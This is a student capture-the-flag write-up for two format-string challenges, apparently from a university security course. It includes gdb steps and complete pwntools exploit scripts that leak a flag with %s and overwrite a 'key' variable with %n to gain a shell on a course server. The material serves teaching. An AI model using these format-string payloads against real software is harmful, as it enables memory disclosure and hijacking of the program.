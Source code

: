 # WEEK 7 (Format Strings) - Challenge 1

For this challenge we were provided with a compressed file that contained some python code called exploit_example.py that allowed us to send data to a process either locally or remotely. Furthermore we were given the source code of the program to exploit and the executable. To start this changelenge they gave us an hint to verify the security's that the program and we got this:

![Seguranças do programa](/images/securitys.png)

After that we discovered that the address are static because the PIE isn't activated making it alot easier to perform the exploit.
With this knowledge all that we add to do has to use gdb to analyse the program with this sequence of operations:

```bash
gdb program
b printf #(Breaking at printf because at the printf instruction the flag buffer is already initialized to the correct value of flag.txt)
run
p &flag #(Printing the address of the flag in the stack in our case 0x0804c060)
```

With the address all that was left to do was finding how many %x we would need to get to our first 4 bytes, to do that we tried a very simple input AAAA-%x-%x-%x, to our surprise the value already appeared at the first %x, so all that was left to do was to place the correct address instead of AAAA. To do that we modified the exploit_example.py to be able to send data not as simple as AAAA, because sending the correct address would be impossible through the standard input.

Code used:

```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

N = 50
content = bytearray(0x0 for i in range(N))
number = 0x0804c060
content[0:4] = (number).to_bytes(4, byteorder='little')

s = "-%s"
fmt = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt

# Convert bytearray to string
payload = content.decode('latin-1')

p.recvuntil(b"got:")
p.sendline(payload)

p.interactive()
```


Output from the local program:
![Output local](/images/localFlag.png)

Output from the remote program:
![Output remoto](/images/serverFlag.png)

## Answers:
### What line of code is the vulnerability at?

The vulnerability is present at line 27 within the printf function. This vulnerability arises due to the omission of any string formatters, leaving only the buffer to be processed.

### What does the vulnerability allows you to do?

In this context, the vulnerability enables us to read an address of a string from the heap using the %s format specifier. By placing the pointer to that address in the stack, we gain the ability to read information from the heap. Additionally, it opens the possibility to write to an address in the stack.

### What functionallity allows you to obtain the flag?

As mentioned in the previous response, leveraging the %s format specifier is pivotal. This allows us to read a heap-allocated string, specifically the one containing the flag in this case. The exploitation of this functionality serves as the key method for obtaining the flag.

# WEEK 7 (Format Strings) - Challenge 2

In tackling this challenge, our objective was to identify the issue within the program. Just as in previous instances, we initiated the investigation by running the checksec, revealing similarities to our previous findings. Armed with this insight, we adhered to our proven methodology, employing gdb with the following sequential commands:

```bash
gdb program
b main
run
p &key #(Printing the address of the flag in the stack in our case 0x0804b324)
```

This time, our goal was to change the key to `0xbeef` in order to trigger a shell and subsequently read the server's flag. The process involved placing the address of the variable in the stack and utilizing the %n format specifier to alter its value. Given the limited buffer input, we had to employ precision formatting to pad a certain address with zeros. After calculating the necessary padding in the local environment, we devised the following exploit:

```python
from pwn import *

from pwn import *

LOCAL = True
if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

# address  = 0x0804b324
# Wanted value - 48879

N = 50
content = bytearray(0x0 for i in range(N))
number = 0xaabbccdd
content[0:4] = (number).to_bytes(4, byteorder='little')
number = 0x0804b324
content[4:8] = (number).to_bytes(4, byteorder='little')

s = "%.48870x-%n"
fmt = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt

# Convert bytearray to string
payload = content.decode('latin-1')

p.recvuntil(b"here...")
p.sendline(payload)

p.interactive()
```

Output from the local program:
![Output local](/images/localBackDoor.png)

Output from the remote program:
![Output remoto](/images/flag2Remote.png)

## Answers:

### What is the line of code where the vulnerability is located? And what does the vulnerability allow one to do?

The vulnerability persists within the printf function, specifically on line 15. This is due to the absence of any string formatter, which results in unrestricted user input. This flaw enables the input of formatters such as %x, providing access to the values stored at addresses on the stack. Consequently, it grants read permissions to both the heap and stack, along with the ability to write on the stack.

### Is the flag loaded into memory? Or is there any functionality that we can leverage to access it?


In the scenario where the flag is not explicitly present in the program, but there exists a condition that grants access to a shell, triggering that condition is as simple as changing the value of the variable `key` to `0xbeef`.

### To unlock this functionality, what do you need to do?

To alter the value of the `key` variable, the process involves obtaining its address and strategically placing it on the stack. Subsequently, we utilize the `%n` specifier when reaching that position to modify its value. Since it's a specific value, careful calculation is required to determine the necessary padding for the process to succeed as we refered above.

